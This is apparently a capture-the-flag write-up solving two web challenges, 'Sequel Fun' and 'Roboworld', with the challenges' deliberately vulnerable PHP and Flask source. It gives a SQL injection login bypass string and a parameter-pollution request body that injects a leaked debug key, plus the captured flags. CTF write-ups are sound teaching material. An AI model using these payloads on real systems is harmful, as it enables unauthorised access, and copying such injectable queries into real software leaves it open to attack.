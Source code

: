 # Web Exploits

## Sequel Fun

Easy sql injection

Relevant source code
```php
<?php
include ("config.php");
if (isset ($_GET['user']) && isset ($_GET['pass'])) {
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  if (strpos ($user, '1') === false && strpos ($pass, '1') === false) {
    $conn = new mysqli ($servername, $username, $password, $dbname);
    $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account

    if ($result === false) {
      echo "<b>Our servers have run into a query error. Please try again later.</b>";
    } else {
      if ($result->num_rows !== 0) {
        $row = mysqli_fetch_array ($result, MYSQLI_ASSOC);

        echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>";

        echo "<b class='flag'>";
        if ($row ["uid"] === "0")
          echo $flag;
        else
          echo "Welcome elf!";
        echo "</b>";

      } else {
        echo "<b>Login fail.</b>";
      }
    }
  } else {
    echo "<b>I don't like the number 1 :(</b>";
  }
} else {
  echo '<form class="center">
    <h1>Santa Login:</h1>
    <label>Username:</label> <input type="text" name="user" autocomplete="off"><br>
    <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br>
    <input type="submit" value="Connect">
  </form>';
}
?>
```

Set username to `' OR uid = 0 #` and whatever to password

Flag: ```X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}```

## Roboworld
> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> Can you figure out what's wrong and access the secret files?
> Remote server: http://challs.xmas.htsp.ro:11000

Given file: leak.py
```py
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

If you make a request to `/captchaVerify` endpoint with `privateKey=8EE86735658A9CE426EAF4E26BB0450E`, you will get `allow` regardless of `captcha value`

We need to make `/login` post endpoint call the `/captchaVerify` endpoint with our poisoned `captchaToken`

We need post body to be
```user=backd00r&pass=catsrcool&captcha_verification_value=A%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E```

which makes the login route do a request like
```
GET /captchaVerify?captchaUserValue=A&privateKey=8EE86735658A9CE426EAF4E26BB0450E&privateKey=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

When doing `privKey = request.args.get('privateKey')`
`privkey` gets set to our debug privateKey instead

Or in burp set to this params

![burp](https://i.imgur.com/Ul9WFlT.png)

Send it and u get redirected to 

![dashboard](https://i.imgur.com/B6UgUqh.png)

Open the wtf.mp4 can u get the flag reverse

Do a frame grab and manually mirror the flag or ocr or whatever method

![](https://i.imgur.com/YC7UA1G.png)

Flag: ```X-MAS{Am_1_Th3_R0bot?_0.o}```

